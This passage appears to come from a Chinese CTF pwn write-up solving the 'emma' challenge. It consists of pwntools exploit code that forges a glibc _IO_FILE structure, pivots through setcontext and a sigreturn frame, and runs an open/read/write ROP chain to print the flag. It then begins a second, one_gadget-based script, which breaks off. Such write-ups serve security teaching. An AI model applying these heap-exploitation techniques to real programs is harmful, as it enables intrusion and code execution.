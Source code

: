 ```python
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(ROL(gadget_addr ^ (chunk0), 0x11))

fake_frame_addr = chunk2+0x10
frame = SigreturnFrame()
frame.rdi = fake_frame_addr + 0xF8# ./flag
frame.rsi = 0
frame.rdx = 0x100
frame.rsp = fake_frame_addr + 0xF8 + 0x10
frame.rip = pop_rdi_addr + 1  # ret

rop = [
    pop_rax_addr,  # sys_open('flag', 0)
    2,
    syscall_addr,
  
    pop_rax_addr,  # sys_read(flag_fd, heap, 0x100)
    0,
    pop_rdi_addr,
    3,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr,

    pop_rax_addr,  # sys_write(1, heap, 0x100)
    1,
    pop_rdi_addr,
    1,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr
]
payload = p64(0) + p64(fake_frame_addr) + '\x00' * 0x10 + p64(setcontext_addr + 61)
payload += str(frame).ljust(0xF8, '\x00')[0x28:] + 'flag'.ljust(0x10, '\x00') + flat(rop)

edit(-4, fake_IO_FILE)
edit(2, payload)

sla(">>",1)
sla("Index:",8)
sla("Size:",0x600)
# print p.recvuntil("}")
# __malloc_assert
# _IO_cookie_write

p.interactive()
```

因为是题目未开沙盒，再给一个one_gadget的解法

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux')
context.log_level = 'debug'

p = process('./emma')
elf = ELF("./emma")
libc = elf.libc

def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
```